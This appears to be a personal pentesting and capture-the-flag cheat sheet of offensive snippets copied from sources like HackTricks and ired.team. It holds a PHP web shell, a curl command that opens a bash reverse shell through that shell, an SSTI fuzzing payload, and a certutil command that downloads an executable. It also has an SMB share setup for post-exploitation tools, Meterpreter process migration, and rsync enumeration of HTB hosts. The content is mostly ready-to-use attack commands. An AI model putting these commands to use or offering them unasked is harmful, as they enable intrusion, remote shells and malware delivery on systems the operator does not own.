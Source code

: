 in here is things i have copy pasted since i have to look for them way too often, i take no credit for anything btw

### bash reverse shell from a php command thing

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

### SSTI Fuzzing string

stolen from hacktricks bc i use it often and it takes me forever to find it each time
```
${{<%[%'"}}%\
```

### Certutil File Download

stolen from ired.team. i forgor this one way too much aswell

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

### smberver commands

```bash

# accept specific auth
smbserver.py -smb2support <SHARENAME> <LOCALPATH> -username <USERNAME> -password <PASSWORD>
smbsever.py -smb2support POSTEXP /home/tobeatelite/ctf/tools/privesc -username tbe -password tbe

# anon access
smbserver.py <SHARENAME> <LOCALPATH>
smbserver.py POSTEXP /home/tobeatelite/ctf/tools/privesc

```

Meterpreter auto migrate
```
meterpreter > run post/windows/manage/migrate
```

enter docker container 

```
docker exec -it <container_name> bash
```

rsync list
```
rsync --list-only -a rsync://unbalanced.htb/
```

rsync file getter things
```
rsync -a rsync://unbalanced.htb/conf_backups conf_backups
rsync -a rsync://<HOST>/<DIR> <OUTPUT_DIR>
```
